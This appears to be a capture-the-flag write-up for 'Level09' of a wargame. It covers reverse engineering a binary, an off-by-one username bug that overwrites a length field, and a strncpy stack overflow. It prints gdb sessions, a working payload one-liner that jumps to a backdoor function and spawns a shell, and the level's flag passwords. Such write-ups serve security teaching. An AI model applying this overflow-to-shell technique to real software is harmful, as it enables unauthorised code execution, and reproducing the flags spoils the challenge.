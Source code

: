 [README](../README.md)
# Level09
previous flag: `fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S`

## Behavior
- when eecuting the program we are prompt to enter 
    - a username
    - a message
- a msg sent confirmation is displayed before returning

## disas 
- main call handle_msg
- handle_msg 
    - handle both the username and the msg logic, calling set_username at <+80> and set_msg at <+95>
    - allocates 192 bytes on the stack (`0x00000000000008c4 <+4>:	sub    $0xc0,%rsp`) that we will find out being split in 140 char for the message, 40 char for the username and  4 byes for the int containing the size
    - contains a struct declaration:
        - 5 * 8 bytes = 40 char (for the username)
        ```
        0x00000000000008d8 <+24>:	movq   $0x0,(%rax)
        0x00000000000008df <+31>:	movq   $0x0,0x8(%rax)
        0x00000000000008e7 <+39>:	movq   $0x0,0x10(%rax)
        0x00000000000008ef <+47>:	movq   $0x0,0x18(%rax)
        0x00000000000008f7 <+55>:	movq   $0x0,0x20(%rax)
        ```

        - `0x00000000000008ff <+63>:	movl   $0x8c,-0xc(%rbp)`:  an integer being initialized to a value of 140 (the max length of text being used in set_msg)
        - 192-4(align)-40(username)-4(text_length) = 140 char => text array
- set_username has a vulnerability related to a wrong loop limit that can reach 41 (if there is no NULL terminator) for a buffer that is 40 bytes long (from <+121> to <+178>) => test instruction at <+176> checks if the value in al register is zero
- set_msg copy using strncpy the text written by the user into the buffer using the length var as ref
- secret_backdoor does nothing but executing the system() function with whatever argument is passed to it



## vulnerability
- if we pass an username of 41 bytes istead of 40 we can write directly in the text length var (set in handle_msg to 140 and controlling the strncpy used in set_msg => msg must be 140 char max long)
- if we write in the text length var a value higher than 140, the strncpy iin set_msg overflows giving us the way to call the secret_bckdoor function that execute whatever we pass to it

## Solution
- we write a padding of 40 char to overflow the loop and write to text length
- we write to text length var the value \xff; that is the highest value we can write in a un unsigned char
- find the secret_backdoor address: 
```
(gdb) info function secret_backdoor
All functions matching regular expression "secret_backdoor":

Non-debugging symbols:
0x000055555555488c  secret_backdoor
```
- find the offset of strncpy overflowed :
```
(gdb) shell python -c 'print "A" * 40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A"' > /tmp/exp
(gdb) run < /tmp/exp
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) info registers
rax            0xd	13
rbx            0x0	0
rcx            0x7ffff7b01f90	140737348902800
rdx            0x7ffff7dd5a90	140737351867024
rsi            0x7ffff7ff7000	140737354100736
rdi            0xffffffff	4294967295
rbp            0x6741356741346741	0x6741356741346741
rsp            0x7fffffffe1a8	0x7fffffffe1a8
r8             0x7ffff7ff7004	140737354100740
r9             0xc	12
r10            0x7fffffffda50	140737488345680
r11            0x246	582
r12            0x555555554790	93824992233360
r13            0x7fffffffe290	140737488347792
r14            0x0	0
r15            0x0	0
rip            0x555555554931	0x555555554931 <handle_msg+113>
eflags         0x10246	[ PF ZF IF RF ]
cs             0x33	51
ss             0x2b	43
ds             0x0	0
es             0x0	0
fs             0x0	0
gs             0x0	0
(gdb) x/s $rsp
0x7fffffffe1a8:	 "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A\n"
(gdb) x/10xw $rsp
0x7fffffffe1a8:	0x37674136	0x41386741	0x68413967	0x31684130
0x7fffffffe1b8:	0x41326841	0x68413368	0x35684134	0x41366841
0x7fffffffe1c8:	0x68413768	0x39684138
```
=> if we pass 0x37674136 to the pattern generator offset finder we get 200 as the offset
- add the /bin/bash code at the end of the payload:

## crafting the payload
- `(python -c 'print "A" * 40 + "\xff" + "\n" + "B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh\n"'; cat) | ./level09`

```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff" + "\n" + "B" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh\n"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```


